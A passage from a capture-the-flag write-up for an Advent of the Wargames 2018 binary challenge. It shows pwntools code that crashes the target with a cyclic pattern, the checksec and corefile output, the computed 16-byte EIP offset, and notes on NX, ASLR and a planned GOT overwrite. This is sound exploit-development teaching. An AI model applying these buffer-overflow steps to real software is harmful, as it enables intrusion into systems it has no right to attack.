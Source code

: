 ```python
io.sendline(cyclic(128))
io.wait()

core = io.corefile

####
eip = core.eip
info("eip = %#x", eip)

offset = cyclic_find(eip)
info("offset = %d", offset)
```

```
% ./exploit_v1.py 
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift': pid 9644
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: 
[*] Process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift' stopped with exit code -11 (SIGSEGV) (pid 9644)
[+] Parsing corefile...: Done
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/core.9644'
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xffb8f850
    Exe:       '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift' (0x8048000)
    Fault:     0x61616165
[*] eip = 0x61616165
[*] offset = 16
```

se we need to 16 bytes of data before we can overwrite EIP.  
also we see in the process that NX is activated, so cannot just push some code into the stack...  
  
  
The libc is provided, so i first thought about some ret2libc, which worked locally only if i disabled ASLR
```
% echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

since it's remote, i decided not to waste time on this and enabled it again:

```
% echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```


i spent some time reading [https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/] and got convinced i needed to overwrite the GOT entry.  
  